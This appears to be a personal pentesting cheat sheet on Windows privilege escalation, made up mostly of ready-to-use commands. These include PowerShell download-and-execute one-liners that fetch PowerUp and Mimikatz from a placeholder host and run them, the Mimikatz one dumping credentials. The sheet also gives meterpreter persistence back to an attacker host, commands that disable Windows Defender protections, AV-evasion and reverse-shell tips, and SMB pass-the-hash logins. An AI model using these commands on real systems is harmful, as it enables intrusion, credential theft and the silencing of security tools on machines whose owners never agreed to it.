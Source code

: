 # Privilege Escalation

## basic enumeration
Get Version:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
Check for other drives via meterpreter:
`show_mount`
List intalled programs via meterpreter:
`reg query HKEY_LOCAL_MACHINE\SOFTWARE`
Use powerup in memory without touching disk:
`IEX(New-Object Net.WebClient).DownloadString("http://<ip>:<port>/PowerUp.ps1");Invoke-AllChecks
`

## check the Linux Subsystem for interesting files
Its available in Windows 10 and Server 2016+, usually the path looks like this:
`C:\Users\<name>\AppData\Local\Packages\CanonicalGroup...`


## Persistence
`run persistence -U -i 60 -p <LPORT> -r <LHOST>`


## Searching

Writeable directories:
`dir /a-r-d /s /b`
Files by name:
`dir /s *foo*`
Files by content:
`findstr /s /i <needle> *.*`
Files by owner:
`DIR C:\*.* /S /Q|FIND /i "owner"`  
Search in meterpreter by extension:
`search -f *.<ext>`


## check named pipes

PS `[System.IO.Directory]::GetFiles("\\.\\pipe\\")`


## reverse shell

If no AV is present you can upload the simple nc.exe from Seclists. 

Otherwise Unicorn generates great powershell and hta shells that are difficult to detect. These can be converted with PS2EXE to PE Files when that is required.


## av evasion

* shelter https://www.shellterproject.com/download/ can inject shellcode into legit 32-Bit Executables and is likely to get not detected

### Disable Windows Defender (needs admin afaik)
```
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend

```

## runas

The tool `runas` can use cached credentials with the `/savecred` option, however it will open a new `cmd.exe` which is a problem with remote shells.

```bash cheat runas runas with savecred
runas /user:administrator /savecred "cmd.exe /k whoami"
```

## misc

* you can import empires power-up into meterpreter (https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/)
* escape character in windows is `^`

## isos

* You can get get legit Windows-VMs from https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

## SMB

```bash cheat smb enumerate
smbmap -R -H \\<ip>

smbclient -L \\<ip> -N

smbclient \\<ip>\share -U <user>

smbget -R <ip>

```

```bash cheat smb login
python2 /usr/bin/smbclient.py <Domain>/<user>@<ip> -hashes <part1>:<part2>

auxiliary/scanner/smb/smb_login  

crackmapexec <ip(s)> -d <domain> -u <user> -p <pass>

exploit/windows/smb/psexec

net use z: \\<ip>\c$ /user:<username> <password>
```

* https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

## Firewall

### Disable Firewall on Windows 7

Changing /d 0, to /d 1.
`Reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Or via powershell:
`powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

### Enable Remote Desktop

`netsh advfirewall firewall set rule group="Remotedesktop" new enable=yes`

Or via powershell:
`powershell.exe -ExecutionPolicy Bypass -command 'Enable-NetFirewallRule -DisplayGroup "Remote Desktop"'`

These need a group name. Get them via:
`netsh advfirewall firewall show rule name=all|find "Gruppierung:"`

## RDP

Good clients are xfreerdp, rdesktop and remmina. PTH-Attacks are possible with xfreerdp (See http://www.fuzzysecurity.com/tutorials/16.html).

## In Memory Powershell Payload Download & Execution

`IEX(New-Object Net.WebClient).downloadString('<url>/<payload>') ;<methodName>`

### Useful Payloads:

```bash cheat powerup PowerUp:
IEX(New-Object Net.WebClient).downloadString('<url>/PowerUp.ps1') ;Invoke-AllChecks
```

```bash cheat mimikatz mimikatz powershell:
IEX(New-Object Net.WebClient).downloadString('<url>/MimiKatz.ps1') ;Invoke-Mimikatz -DumpCreds
```

## Powershell Download File

Pay attention to the -Outfile it is very much needed
`Invoke-WebRequest "http://<ip>:<port>/<in file>" -OutFile "<out file>"`

## Powershell in Meterpreter

`load powershell` + `powershell_shell`

## Persistence

`run persistence -U -i 60 -p <LPORT> -r <LHOST>`

## links

* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

tags: #privilege_escalation #privesc #windows #powershell #iex 
